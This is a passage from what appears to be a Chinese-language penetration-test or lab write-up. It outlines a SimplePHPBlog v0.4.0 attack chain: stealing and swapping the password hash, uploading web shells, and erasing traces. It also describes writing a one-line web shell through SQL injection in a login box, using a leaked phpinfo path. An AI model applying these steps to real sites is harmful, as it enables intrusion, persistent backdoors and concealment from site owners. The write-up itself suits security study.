

成功获取 root shell。

---
# 4. 补充

## 4.1 SimplePHPBlog v0.4.0 漏洞分析

### 攻击流程图

```
 获取密码哈希 → 删除密码文件 → 创建临时用户 → 登录获取会话  
       ↓  
   上传 Web Shell (cmd.php, reset.php)  
       ↓  
   恢复原始密码哈希 → 清理痕迹 (删除 reset.php)
```

## 4.2 网站主页SQL注入尝试

首页登录框存在sql注入，判断secure_file_priv为空后；并且存在info文件中的phpinfo信息，可以看到站点的绝对路径，直接尝试写一句话



